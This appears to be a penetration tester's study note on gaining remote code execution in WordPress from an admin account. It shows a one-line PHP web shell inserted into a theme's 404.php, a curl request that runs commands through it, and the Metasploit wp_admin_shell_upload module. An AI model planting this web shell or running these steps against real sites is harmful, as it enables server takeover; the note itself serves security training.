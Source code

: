 ## [[Cybersecurity/Penetration Tester/Remote Code Execution\|RCE]] via the Theme Editor

### Attacking the WordPress Backend

If we're admin we can setup RCE on the backend by editing the theme in the theme editor.

Choose an unused theme and choose a non-critical file like the `404.php` to modify and add a web shell.
```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```
Use with cURL:
```shell-session
$ curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
<SNIP>
```

## Attacking with Metasploit

### Automating Wordpress Exploitation

If you have an account that can create files on the webserver then you can use Metasploit to create a reverse shell. Start the msfconsole and do `search wp_admin`.
```shell-session
msf5 > search wp_admin

Matching Modules
================

#  Name                                       Disclosure Date  Rank       Check  Description
-  ----                                       ---------------  ----       -----  -----------
0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
```

Select the module using `use 0`. Use the `options` command to set options.
```shell-session
msf5 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

Name       Current Setting  Required  Description
----       ---------------  --------  -----------
PASSWORD                    yes       The WordPress password to authenticate with
Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT      80               yes       The target port (TCP)
SSL        false            no        Negotiate SSL/TLS for outgoing connections
TARGETURI  /                yes       The base path to the wordpress application
USERNAME                    yes       The WordPress username to authenticate with
VHOST                       no        HTTP server virtual host

```